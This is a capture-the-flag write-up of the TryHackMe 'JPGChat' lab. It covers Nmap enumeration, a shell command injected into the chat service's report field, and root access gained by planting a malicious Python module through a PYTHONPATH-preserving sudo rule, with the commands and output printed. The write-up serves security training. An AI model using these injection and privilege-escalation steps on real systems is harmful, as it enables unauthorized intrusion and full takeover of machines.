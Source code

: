 # THM - JPGChat

#### Ip: 10.10.110.157
#### Name: JPGChat
#### Difficulty: Easy

----------------------------------------------------------------------

![jpgchat.png](../assets/jpgchat_assets/jpgchat.png)

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also use the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/THM/JPGChat]
└─$ sudo nmap -p-  --min-rate 10000 10.10.110.157       
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-29 12:33 CDT
Nmap scan report for 10.10.110.157
Host is up (0.13s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
3000/tcp open  ppp

Nmap done: 1 IP address (1 host up) scanned in 9.07 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/THM/JPGChat]
└─$ sudo nmap -sC -sV 10.10.110.157 -p 22,3000          
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-29 12:34 CDT
Nmap scan report for 10.10.110.157
Host is up (0.13s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fecc3e203fa2f8096f2ca3affa329c94 (RSA)
|   256 e8180cadd0635f9dbdb784b8ab7ed197 (ECDSA)
|_  256 821d6bab2d04d50b7a9beef464b57f64 (ED25519)
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, NULL: 
|     Welcome to JPChat
|     source code of this service can be found at our admin's github
|     MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
|_    REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.93%I=7%D=8/29%Time=64EE2C24%P=aarch64-unknown-linux-gn
SF:u%r(NULL,E2,"Welcome\x20to\x20JPChat\nthe\x20source\x20code\x20of\x20th
SF:is\x20service\x20can\x20be\x20found\x20at\x20our\x20admin's\x20github\n
SF:MESSAGE\x20USAGE:\x20use\x20\[MESSAGE\]\x20to\x20message\x20the\x20\(cu
SF:rrently\)\x20only\x20channel\nREPORT\x20USAGE:\x20use\x20\[REPORT\]\x20
SF:to\x20report\x20someone\x20to\x20the\x20admins\x20\(with\x20proof\)\n")
SF:%r(GenericLines,E2,"Welcome\x20to\x20JPChat\nthe\x20source\x20code\x20o
SF:f\x20this\x20service\x20can\x20be\x20found\x20at\x20our\x20admin's\x20g
SF:ithub\nMESSAGE\x20USAGE:\x20use\x20\[MESSAGE\]\x20to\x20message\x20the\
SF:x20\(currently\)\x20only\x20channel\nREPORT\x20USAGE:\x20use\x20\[REPOR
SF:T\]\x20to\x20report\x20someone\x20to\x20the\x20admins\x20\(with\x20proo
SF:f\)\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.93 seconds
```

Going off the Nmap scan we know there is a GitHub with the source code to the chat system. A quick Google takes us to https://github.com/Mozzie-jpg/JPChat/blob/main/jpchat.py

![github.png](../assets/jpgchat_assets/github.png)

Taking a look at the source code we see that it is using `os.system` to make bash commands. We should be able to exploit this:

![code.png](../assets/jpgchat_assets/code.png)

### Exploitation

We can connect to the chat service using NetCat:

```text
┌──(ryan㉿kali)-[~/THM/JPGChat]
└─$ nc -nv 10.10.110.157 3000
(UNKNOWN) [10.10.110.157] 3000 (?) open
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```

From there we can run:

```text
[REPORT]
this report will be read by Mozzie-jpg
your name:
test
your report:
test';/bin/bash;echo '
test
whoami
wes
id
uid=1001(wes) gid=1001(wes) groups=1001(wes)
```
Which is giving us interactive control via bash and echo to the target.

We can set up a NetCat listener and issue a one-liner to get a real reverse shell back:

![shell.png](../assets/jpgchat_assets/shell.png)

Now that we have a shell we can grab the user.txt flag:

![user_flag.png](../assets/jpgchat_assets/user_flag.png)

### Privilege Escalation

Running `sudo -l` we find that Wes can run test-module.py in the `/opt` directory and that it will keep the environment variable. 

```text
wes@ubuntu-xenial:/tmp$ sudo -l
Matching Defaults entries for wes on ubuntu-xenial:
    mail_badpass, env_keep+=PYTHONPATH

User wes may run the following commands on ubuntu-xenial:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
```

Taking a look at the script we see it is importing from a module called compare:

```text
wes@ubuntu-xenial:/opt/development$ cat test_module.py
cat test_module.py
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))
```

Interesting, we may be able to hijack this by creating our own compare.py module, updating the pythonpath, and then running the script as root.

```text
wes@ubuntu-xenial:/tmp$ cat >> compare.py
import os
os.system('/bin/bash')
^C
wes@ubuntu-xenial:/tmp$ cat compare.py
import os
os.system('/bin/bash')
wes@ubuntu-xenial:/tmp$ chmod +x compare.py
wes@ubuntu-xenial:/tmp$ export PYTHONPATH=/tmp
wes@ubuntu-xenial:/tmp$ sudo /usr/bin/python3 /opt/development/test_module.py
root@ubuntu-xenial:/tmp# whoami
root
root@ubuntu-xenial:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```

Nice, that worked! Lets go ahead and grab the root.txt flag:

![root_flag.png](../assets/jpgchat_assets/root_flag.png)

Thanks for following along!

-Ryan

------------------------------------------------------
